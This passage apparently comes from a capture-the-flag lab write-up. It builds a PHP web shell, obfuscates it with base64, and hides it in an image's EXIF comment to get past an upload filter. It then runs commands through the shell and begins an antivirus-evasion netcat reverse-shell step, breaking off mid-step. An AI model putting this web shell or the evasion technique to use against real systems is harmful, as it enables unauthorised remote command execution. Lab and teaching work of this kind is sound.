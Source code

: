 Obfuscate this payload:

```php
<?php
    $cmd = $_GET["wreath"];
    if(isset($cmd)){
        echo "<pre>" . shell_exec($cmd) . "</pre>";
    }
    die();
?>
```

With [PHP Obfuscator](https://www.gaijin.at/en/tools/php-obfuscator)

![php-obfuscator](https://i.postimg.cc/d3FqYFsD/php-obfuscator.png)

Our payload looks like:

```php
<?php \$t0=\$_GET[base64_decode('dW5rbm93bg==')];if(isset(\$t0)){echo base64_decode('PHByZT4=').shell_exec(\$t0).base64_decode('PC9wcmU+');}die();?>
```

Set payload:

```
$ exiftool -Comment="<?php \$t0=\$_GET[base64_decode('dW5rbm93bg==')];if(isset(\$t0)){echo base64_decode('PHByZT4=').shell_exec(\$t0).base64_decode('PC9wcmU+');}die();?>" matrix.jpg.php -overwrite_original
```

Exploit it by naviagating to http://localhost:10003/resources/uploads/matrix.jpg.php?unknown=whoami

- What is the Host Name of the target?

Visit http://localhost:10003/resources/uploads/matrix.jpg.php?unknown=hostname

> wreath-pc

- What is our current username (include the domain in this)?

Visit http://localhost:10003/resources/uploads/matrix.jpg.php?unknown=whoami

> wreath-pc\thomas

---

### ***AV Evasion** Compiling Netcat & Reverse Shell!*

Clone the nc.exe from github.

- What output do you get when running the command: certutil.exe?

Visit http://localhost:10003/resources/uploads/matrix.jpg.php?unknown=certutil.exe

> CertUtil: -dump command completed successfully.

Use cURL to upload your new copy of netcat to the target

Attacker mchine:
